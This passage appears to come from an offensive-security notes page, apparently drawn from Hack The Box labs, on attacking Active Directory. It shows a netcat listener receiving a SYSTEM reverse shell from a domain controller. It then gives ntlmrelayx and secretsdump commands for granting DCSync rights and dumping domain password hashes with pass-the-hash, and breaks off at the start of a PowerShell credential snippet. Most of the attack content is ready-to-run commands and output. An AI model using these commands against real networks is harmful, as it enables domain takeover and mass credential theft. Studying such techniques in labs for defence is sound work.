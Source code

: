 Before executing the powershell script, we need to establish a listener from the compromised workstation we are operating from.

```
<PS C:\Tools\practical_tools> nc.exe -lvnp 4444>
```

After executing this script, CMD process with SYSTEM privilege will be created on the domain controller.

```
PS C:\Tools\practical_tools> nc.exe -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.1.111] from (UNKNOWN) [192.168.1.110] 59121
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>
```

### Performing DCSync Attack

#### Method one

**With impacket tools**

Performing this kind of attack may require a user with DCSync rights. That can be performed if the user can be added to a group where #writedacl is enabled. We can then add that user to that group and use the below command to grant the #DCSync rights

```
./ntlmrelayx.py -t ldap://domain.local --escalate-user admin
```

You can also use the ip address of the domain instead of the domain name in the comman above. The above command will spawn a webserver that you need to access at `127.0.0.1` and supply the credential for the user to whom you are trying to grant the #DCSync rights. If the above was successful you can then execute one of the below commands for privilege escalation \[1]

```
<root@kali: secretsdump.py htb.local/user@apt.htb \-hashes aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798>
```

\[2]

```
<root@kali:secretsdump.py -hashes :d167c3238864b12f5f82feae86a7f798 'htb.local/APT$@htb.local'>
```

```
<root@kali:python3 /usr/share/doc/python3-impacket/examples/secretsdump.py a-whitehat@10.10.171.0>
```

#### Method 2

**With powershell and impacket tools**

You can execute the below commands on the target \[1]

```powershell
$username = "domainname\username"; $password = "password"; 
```
